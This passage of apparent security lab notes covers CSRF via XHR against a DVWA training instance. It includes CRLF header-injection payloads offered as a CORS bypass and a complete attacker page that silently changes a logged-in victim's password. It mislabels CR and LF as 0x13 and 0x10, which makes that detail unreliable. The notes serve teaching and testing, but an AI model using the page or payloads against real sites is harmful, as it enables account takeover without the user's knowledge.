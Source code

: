 #### 2.1. CSRF via XHR (low security DVWA)

Notes:
- Burp Suite can help you generate CSRF requests (Engagement tools -> Generate CSRF PoC)
- CSRF will be triggered every time a user of site X visits our malicious page
- user may (not) have to be authenticated on the target website (typically they are)
- request will be sent via `XMLHttpRequest` (works in most browsers nowadays)
- the advantage of XHR is that the victim is not aware of the malicious requests
  - they will not be redirected to target website (no suspicious activity)
- CORS (Cross Origin Resource Sharing) policy only blocks the response from the victim website (however, the request goes through according to Burp/server logs)
```
Access to XMLHttpRequest at 'http://172.16.201.160/vulnerabilities/csrf/?password_new=123&password_conf=123&Change=Change' from origin 'http://localhost:8081' has been blocked by CORS policy: No 'Access-Control-Allow-Origin' header is present on the requested resource.
```
- bypassing CORS is possible via HTTP header-injection vulnerability (a.k.a `CR-0x13` & `LF-0x10` injection or `\r\n`)
```
/%0d%0aAccess-Control-Allow-Origin:*
/?param_x=%0d%0aAccess-Control-Allow-Origin:*
```


#### 2.2. PoC attacker page could look like

```html
<!DOCTYPE html>
<html>
  <body>
    <script>
      function submitRequest()
      {
      	var url = "http://172.16.201.160/vulnerabilities/csrf/?";
      	var params = "password_new=123&password_conf=123&Change=Change"

        var xhr = new XMLHttpRequest();
        xhr.open("GET", url + params, true);
        xhr.withCredentials = true;
        var body = ""; // var body = params; // for POST request
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
      submitRequest();
    </script>
  </body>
</html>
```
